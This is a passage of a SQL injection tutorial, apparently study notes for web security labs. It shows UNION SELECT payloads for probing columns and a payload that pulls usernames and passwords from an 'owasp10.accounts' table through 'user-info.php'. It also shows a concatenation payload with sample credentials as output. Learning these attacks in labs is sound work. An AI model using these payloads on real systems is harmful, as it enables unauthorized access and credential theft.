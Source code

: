 ```SQL
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:

Conversion failed when converting the varchar value 'a' to data type int.

If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.

### Notes

- On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called DUAL which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`.
- The payloads described use the double-dash comment sequence -- to comment out the remainder of the original query following the injection point. On MySQL, **the double-dash sequence must be followed by a space**. Alternatively, the hash character `#` can be used to identify a comment.

## 9. Attempt to extract data

```SQL
Technique: Direct Injection
Page: user-info.php
Field: Username
Value: ' union select null, owasp10.accounts.username AS username, owasp10.accounts.password AS password, null from owasp10.accounts --
```

## 9.1 Retrieving multiple values within a single column

In case of the the query only returns a single **column**

You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:

```SQL
' UNION SELECT username || '~' || password FROM users--
```

This uses the double-pipe sequence || which is a string concatenation operator on Oracle. The injected query concatenates together the values of the username and password fields, separated by the ~ character.

The results from the query will let you read all of the usernames and passwords, for example:

...
administrator~s3cure
wiener~peter
carlos~montoya
...
